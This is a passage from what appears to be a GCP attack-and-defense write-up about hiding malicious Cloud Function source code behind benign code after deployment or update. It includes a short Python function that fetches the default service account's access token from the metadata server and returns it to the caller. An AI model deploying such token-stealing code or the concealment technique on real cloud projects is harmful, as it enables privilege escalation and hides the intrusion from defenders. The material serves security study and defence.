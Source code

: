>Note: Even if you upload the source code Locally or via Cloud Repository, it will still be saved in the Cloud Storage Bucket.

Here's a high level overview of the Source Code Concealment process.

<p><img src="https://drive.google.com/uc?id=1aAQCgvDsXLDkJW_TY12xLwLXCtbWd14j"></p>

If an attacker wants to abuse Cloud Function for malicious purpose be it Privilege Escalation, Persistence, Impact etc. they typically have three primary options to choose from:
- Deploy a Cloud Function.
- Update the Cloud Function.
- Delete a Cloud Function.

The primary objective of Deleting a Cloud Function is to create an [Impact](https://attack.mitre.org/tactics/TA0040/) rather than facilitate something important like Privilege Escalation or Persistence etc, moreover there is no point in concealing source code for the function we are going to delete. Thus, we will concentrate on concealing the source code for remaining two strategies:
- Deploy a Cloud Function.
- Update the Cloud Function.

## Way I - Deploy a Cloud Function in Google Cloud Platform

Before you Deploy a Cloud Function make sure you have: 

1. The necessary APIs and Permissions required for Deploying a Cloud Function (gCloud or Cloud Function API (gRPC & REST)).

    - [APIs and Permissions required for Deploying Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#apis-and-permissions-required-for-deploying-a-cloud-function-via-gcloud)

    - [APIs and Permissions required for Deploying Cloud Function via Cloud Function API (gRPC & REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#apis-and-permissions-required-for-deploying-a-cloud-function-via-cloud-function-api-grpc--rest)

2. The Malicious source code and Non-malicious source code in place.

#### In our case the Malicious and Non-malicious source code are given below:

```python
#Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    metadata_server_url = "http://169.254.169.254/computeMetadata/v1"
    metadata_key_url = f"{metadata_server_url}/instance/service-accounts/default/token"
    metadata_headers = {"Metadata-Flavor": "Google"}
    response = requests.get(metadata_key_url, headers=metadata_headers)
    access_token = response.text
    return access_token
```

```python
#filename: requirements.txt
requests
```
To cover the Malicious Source Code, we'll be using a Non-Malicious source code.
